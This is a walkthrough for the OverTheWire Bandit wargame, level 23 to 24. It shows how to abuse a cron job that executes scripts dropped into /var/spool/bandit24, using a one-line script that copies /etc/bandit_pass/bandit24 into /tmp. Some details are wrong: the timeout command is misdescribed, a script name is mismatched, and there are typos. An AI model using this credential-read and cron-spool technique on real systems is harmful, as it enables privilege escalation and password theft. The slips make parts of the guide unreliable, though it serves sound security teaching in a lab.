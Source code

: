 # Bandit Level 23 → Level 24

## Level Goal

A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very bcd ig step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

---

## Walkthrough

Login to the server using the password obtained from the previous level [Bandit level 22 -> 23](../bandit22-23/README.md). 

username: `bandit23` 

```ssh
ssh bandit23@bandit.labs.overthewire.org -p 2220
```

This level is cron job related like the previous few levels so first thing to do 
is check the `/etc/cron.d` directory.

```console
bandit23@bandit:~$ cd /etc/cron.d

bandit23@bandit:/etc/cron.d$ ls
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
```

This time the cronjob we need to investigate is `cronjob_bandit24`.

```console
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24

@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
```

The cronjob is running the script `cronjob_bandit24.sh` as user bandit24 every minute. So let's see what it is doing.


```bash
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh 

#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i-
        fi
        rm -f ./$i
    fi
done
```

The bash script is doing:

* Running `whoami` and storing the value in `myname` (bandit24 in this instance)
* Changing into the `/var/spool/bandit24` directory

* for each **file** in `/var/spool/bandit24` (files and hidden files)
  * if **file** is not `.` (current directory) and  **file** is not `..`(parent directory)
    * print 'Handling **file**' to the screen 
    * Assign the name of the owner of the **file** to a variable "owner"
    * if "owner" equals 'bandit23'
      * wait 60 seconds and then run the **file**
    * delete **file**


Since we are bandit23, any file we create and place into `/var/spool/bandit24` 
will be run as user bandit24. The file is deleted after being run.

We can create a script to read the password file `/etc/bandit_pass/bandit24` and save it in a new file elsewhere. 

Create a file named `get_bandit24_pass` in `/tmp`.  
Write this line inside the file.

```bash
cat /etc/bandit_pass/bandit24 > /tmp/pass_for_bandit24
```

Give the file execute permission so it can be run and then copy it to the `/var/spool/bandit24` directory.

```console
bandit23@bandit:/tmp$ chmod +x get_bandit24_pass

bandit23@bandit:/tmp$ cp get_bandit_pass /var/spool/bandit24/
```

Now wait 60 seconds and check for a file named `pass_for_bandit24` in tmp.
It will contain the password for bandit24.

```console
bandit23@bandit:/tmp$ cat pass_for_bandit24 
UoMYTr##########################

```